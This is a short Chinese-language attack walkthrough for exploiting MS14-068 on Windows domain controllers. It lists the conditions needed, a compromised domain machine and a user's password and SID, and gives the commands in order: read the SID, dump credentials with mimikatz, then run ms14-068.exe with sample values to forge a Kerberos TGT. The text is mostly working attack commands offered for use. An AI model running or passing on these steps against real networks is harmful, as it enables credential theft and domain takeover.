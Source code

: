 利用条件：

-   域控没有打`MS14-068`的补丁(KB3011780)
-   `拿下一台加入域的计算机`
-   有这台域内计算机的域用户密码和`Sid`

`MS14-068`是密钥分发中心（KDC）服务中的Windows漏洞。

它允许经过身份验证的用户在其Kerberos票证（TGT）中插入任意PAC。该漏洞位于kdcsvc.dll域控制器的密钥分发中心(KDC)中。用户可以通过呈现具有改变的PAC的Kerberos TGT来获得票证.

利用方法：

1.  漏洞 `MS14068` (web admin权限)  
    获取当前用户的SID值，并上传MS14-068漏洞利用文件，然后执行生成攻击域控主机的`TGT`凭据

```bash
# 如果当前用户为域用户，可以直接用 `whoami /user` 获取sid
shell whoami/user
```

2.  运行 `mimikatz` 抓取密码和SID

```bash
* Username : test1
* Domain   : TEST.COM
* Password : Abcd1234!@#$
```

3.  生成认证证书

利用 `ms14-068.exe` 工具生成伪造的 `kerberos` 协议认证证书

```bash
 MS14-068.exe -u <userName>@<domainName> -p <clearPassword> -s <userSid> -d <domainControlerAddr>

ms-14-068.exe -u   域用户@域控名  -p 域用户密码 -s 域用户sid -d 域控ip
```

> 使用刚刚抓到的密码组合命令

```bash
# 组合指令
shell C:\Users\test1\Desktop\ms14-068.exe -u  test1@test.com  -p Abcd1234!@# -s S-1-5-21-1112871890-2494343973-3486175548-1103 -d 192.168.91.11
```
